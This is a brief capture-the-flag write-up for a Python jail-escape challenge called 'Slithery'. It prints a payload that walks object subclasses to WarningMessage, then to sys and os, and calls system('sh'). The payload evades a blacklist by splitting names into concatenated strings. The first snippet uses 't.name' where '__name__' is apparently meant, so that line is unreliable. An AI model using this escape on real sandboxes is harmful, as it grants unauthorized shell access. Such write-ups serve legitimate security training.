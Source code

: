 # Slithery

### Tags
 * python
 * jail
 * filter evasion


### Description
We are given the source code for the sandbox. It uses a blacklist which is not known to us. So we have to try different inputs to see what is blocked and not

### Solution
We want to eventually import the **os** module and spawn a shell. So let's traverse through different objects and libraries
We want ot get the index of the **WarningMessage** subclass, since we can access the **sys** module through it.
```
print([t.name for t in object.__subclasses__()].index("WarningMessage"))
```
We got index **184**, so we can access **WarningMessage** with it. Through **WarningMessage** we get **sys**. Through **sys** we got **os**. Then we call system('sh') while bypasing more filters: 
```
object.__subclasses__()[184].__init__.__globals__['s'+'ys'].modules['o'+'s'].__dict__['sy'+'stem']('sh')
```

**Flag:** ``flag{y4_sl1th3r3d_0ut}``

Reference: https://www.digitalwhisper.co.il/files/Zines/0x5A/DW90-5-PySandbox.pdf